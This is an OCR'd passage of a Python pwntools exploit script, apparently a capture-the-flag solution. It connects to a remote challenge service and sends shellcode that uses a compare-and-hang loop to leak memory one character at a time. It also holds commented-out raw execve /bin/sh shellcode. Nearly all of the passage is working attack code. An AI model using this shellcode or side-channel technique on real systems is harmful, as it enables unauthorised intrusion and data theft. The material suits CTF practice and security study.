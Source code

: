 ```py
else:
    libc = ELF('./x64_libc.so.6')
    p = remote('121.36.64.245',10003)


def exp(char,dis):
    #leak libc
    #sc = asm(shellcraft.amd64.linux.sh())
    #sc= "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    p.recvuntil("Your Shellcode >>")
    #gdb.attach(p,'b* 0x0000555555554000+0xd87')
    #
    sc = asm("L1:mov bl,"+str(ord(char))+";"+"mov rdx,[rsp+0x18];"+'mov rdx,[rdx+'+str(dis)+'];'+'cmp bl,dl;jz L1')
    p.send(sc)

count = 0
dis = 0
def my_exit(signum,frame):
    print str(dis+1)+" char is " + bak[count]
    sys.exit()

def err_exit(signum,frame):
    if debug:
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process('./chall')
    else:
        p = remote('121.36.64.245',10003)
    print count
    print bak[count]
    exp(bak[count],dis)
    count += 1
    p.interactive()
    p.close()

while True:
    signal.signal(signal.SIGINT,my_exit)
    signal.signal(signal.SIGTSTP, err_exit)
    total = len(bak)
    try:
        print count
        print bak[count]
        exp(bak[count],dis)
        count += 1
        p.interactive()
        p.close()
    except Exception as e:
        p.close()

    if debug:
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process('./chall')
    else:
        p = remote('121.36.64.245',10003)

```
